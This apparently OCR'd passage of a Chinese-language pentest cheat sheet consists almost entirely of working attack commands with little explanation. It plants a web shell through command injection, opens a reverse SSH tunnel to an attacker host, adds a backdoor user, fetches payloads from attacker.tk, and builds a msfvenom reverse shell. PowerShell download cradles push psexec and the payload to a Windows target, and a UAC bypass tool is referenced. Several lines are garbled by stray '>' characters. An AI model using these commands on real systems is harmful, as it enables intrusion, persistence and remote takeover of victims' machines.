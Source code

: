 > $ ld simple.o -o simple
使用非交互 Shell 打入内网
# 生成 shell 使用的 ssh 密钥
> $ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
> $ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
> $ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"
# 增加用户 tempuser 
> $ useradd -m tempuser
> $ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
> $ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
> $ chmod 700 /home/tempuser/.ssh/authorized_keys
> $ chown -R tempuser:tempuser /home/tempuser/.ssh
# 反弹 ssh shell
> $ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
利用 POST 远程命令执行获取 Shell
attacker:~> $ curl -i -s -k  -X 'POST' --data-binary > $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'
attacker:~> $ curl -i -s -k  -X 'POST' --data-binary > $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'
attacker:~> $ curl http://victum.tk/shell.php?cmd=id
# 在服务器上下载 shell (phpshell.php)
http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27
# 运行 nc 并执行 phpshell.php
attacker:~> $ nc -nvlp 1337
以管理员身份在 Win7 上反弹具有系统权限的 Shell
msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe
# 显示账户配置
net user <login>
# Kali 上下载 psexec
https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx
# 使用 powershell 脚本上传 psexec.exe 到目标机器
echo > $client = New-Object System.Net.WebClient > script.ps1
echo > $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo > $client.DownloadFile(> $targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1
# 使用 powershell 脚本上传 danger.exe 到目标机器
echo > $client = New-Object System.Net.WebClient > script2.ps1
echo > $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo > $client.DownloadFile(> $targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1
# 使用预编译的二进制文件绕过 UAC:
https://github.com/hfiref0x/UACME